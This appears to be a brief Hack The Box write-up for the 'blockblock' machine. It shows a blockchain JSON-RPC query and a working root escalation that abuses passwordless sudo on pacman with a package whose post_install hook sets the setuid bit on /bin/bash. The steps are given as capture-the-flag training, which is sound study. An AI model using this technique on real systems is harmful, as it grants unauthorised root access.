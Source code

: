 +++
title = 'writeup blockblock HTB'
draft = false
+++
![image](https://github.com/user-attachments/assets/22c345cd-8619-412b-a52b-5133f22d7868)
```
{
  "jsonrpc": "2.0",
  "method": "eth_getBlockByNumber",
  "params": [
    "0x1",  
    true    
  ],
  "id": 1
}
```

![image](https://github.com/user-attachments/assets/97a18c6b-9b1a-42bc-abe9-e13188ac54ba)
![image](https://github.com/user-attachments/assets/28244dbe-d86e-423c-99d0-36b2bd6fb036)

paul to root
we can use pacman as root without password

[docs PKGBUILD](https://wiki.archlinux.org/title/PKGBUILD#install)

we can edit post_install function in .install and make pacman run malicious script
![image](https://github.com/user-attachments/assets/8dd471c0-131d-4f59-ab6b-e65f635406c4)

PKGBUILD:
```
pkgname=exploit
pkgver=1.0
pkgrel=1
arch=('any')
install=exploit.install
```

exploit.install:
```
post_install(){ chmod +s /bin/bash; }
```
then run makepkg -s
sudo pacman -U *.tar --noconfirm
bash -p
